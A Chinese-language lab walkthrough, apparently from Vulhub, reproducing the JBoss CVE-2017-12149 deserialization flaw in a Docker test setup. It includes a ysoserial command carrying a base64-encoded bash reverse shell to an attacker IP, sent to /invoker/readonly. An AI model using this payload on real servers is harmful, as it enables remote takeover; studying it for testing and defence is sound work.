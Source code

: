 # JBoss 5.x6.x 反序列化漏洞 CVE-2017-12149.md

## 漏洞描述

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

- https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
- https://access.redhat.com/security/cve/cve-2017-12149

## 环境搭建

Vulhub运行测试环境

```
docker-compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![image-20230328155952101](images/image-20230328155952101.png)

所以，我们用常规Java反序列化漏洞测试方法来复现该漏洞。

### 编写反弹shell的命令

我们使用bash来反弹shell，但由于`Runtime.getRuntime().exec()`中不能使用管道符等bash需要的方法，我们需要用进行一次编码。

![image-20230328160010674](images/image-20230328160010674.png)

### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送POC

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：

![image-20230328160034054](images/image-20230328160034054.png)

成功反弹shell：

![image-20230328160045518](images/image-20230328160045518.png)